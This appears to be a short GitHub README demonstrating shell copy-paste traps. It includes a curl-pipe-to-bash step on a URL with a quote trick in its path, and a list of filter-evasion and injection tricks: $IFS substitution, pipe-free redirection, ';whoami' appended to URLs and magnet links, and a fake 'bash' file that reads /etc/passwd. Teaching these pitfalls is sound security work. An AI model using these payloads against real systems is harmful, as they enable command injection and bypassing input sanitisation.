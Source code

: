 # latrina
* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash` 
* get fucking owned and learn to escape the urls

# copypaste nightmares 
#### setting string variables without quotes    
`a=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in unescaped url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost:8080/$0 | bash`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&whoami`
